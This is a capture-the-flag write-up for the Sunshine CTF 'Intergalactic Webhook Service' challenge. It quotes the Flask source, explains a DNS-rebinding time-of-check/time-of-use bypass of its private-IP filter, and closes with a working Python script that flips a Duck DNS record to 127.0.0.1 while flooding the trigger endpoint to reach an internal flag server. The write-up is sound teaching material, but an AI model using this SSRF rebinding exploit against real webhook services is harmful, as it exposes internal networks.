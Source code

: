 # CTF Competition: Sunshine CTF

### CTF Name: Intergalactic Webhook Service
**CTF Weight:** 417 points

<img width="232" height="145" alt="Screenshot from 2025-09-27 17-54-03" src="https://github.com/user-attachments/assets/9b3f5c96-7b2e-4b7c-b5c0-a747b7583270" />

Let's look at the source code for this fun little webhook service:

```commandline
FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

registered_webhooks = {}

def create_app():
    return app

@app.route('/')
def index():
    return render_template('index.html')

def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500

```

So the `/Register` endpoint will take a given URL and run it through `is_ip_allowed(url)`. If the IP is good then we get a json token which we feed into the 
`/trigger` endpoint. 

There is another server on port 5001 which contains the flag.
`threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()` 

It is important to not that you cannot directly access this server as it was created in the docker. So even when testing on local,
you will not be able to directly go to  `127.0.0.1:5001`. Only the service/container itself will be able to access it. 

It is important to note that the `is_ip_allowed(url)` is a preventative measure that is restricting certain ip addresses:

```
ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
```

This is a big issue because the flag is at 127.0.0.1 which is being blocked by this function.

Hmmm... lets think

During registration, it is preventing us from submitting a url that resolves to a private or local address.. so what if 
we first submitted an url that resolves to a  public address, then once it passes registration change it back to `127.0.0.1`

I used Duck DNS to carry out the DNS rebinding attack.

So the attack flow is as follows:

```
1) set controlled domain to resolve to valid public url

2) register this domain with the webhook service and retrieve the token

3) change the domain to resolve to 127.0.0.1

4) submit the token to /trigger
```

<img width="959" height="579" alt="Screenshot from 2025-09-27 17-43-17" src="https://github.com/user-attachments/assets/b73a0411-81de-43e4-b3d6-9ed995c93c5f" />


Now there is another `is_ip_allowed(url)` check in the trigger function which is very annoying and once again prevents us 
from going to the flag endpoint.

However, I can send ALOT of requests to the `/trigger` endpoint and during that call, then change the domain to resolve to `127.0.0.1`
This way, the domain rebinding will happen inside the `/trigger` function and we can potentially do a TOCTOU attack inside the function.

So the new attack flow is:

```
1) set controlled domain to resolve to valid public url

2) register this domain with the webhook service and retrieve the token

3) submit Thousands of requests to /trigger endpoint

    3a) change the domain to resolve to 127.0.0.1

```

Final script:
```commandline
#!/usr/bin/env python3
import requests
import threading
import time

DUCK_TOKEN = "<hehe no leaks >"
DOMAIN = "characterwhitectf.duckdns.org"

def update_dns(ip):
    requests.get(f"https://www.duckdns.org/update?domains={DOMAIN}&token={DUCK_TOKEN}&ip={ip}")

def attack():
    update_dns("208.67.222.222")
    time.sleep(0.3)
    
    r = requests.post("https://supernova.sunshinectf.games/register", 
                     data={"url": f"http://{DOMAIN}:5001/flag"})
    wid = r.json().get("id")
    
    for _ in range(20):
        update_dns("127.0.0.1")
        time.sleep(0.02)
        
        results = []
        def worker():
            try:
                r = requests.post("https://supernova.sunshinectf.games/trigger", 
                                 data={"id": wid}, timeout=6)
                if "sun{" in r.text:
                    results.append(r.text)
            except: pass
        
        threads = [threading.Thread(target=worker) for _ in range(120)]
        for t in threads: t.start()
        for t in threads: t.join()
        
        for flag in results:
            print(flag)
            return
        

attack()
```
<img width="774" height="108" alt="Screenshot from 2025-09-27 17-53-26" src="https://github.com/user-attachments/assets/95955c81-d26e-445c-a262-54a2fc4a14e8" />
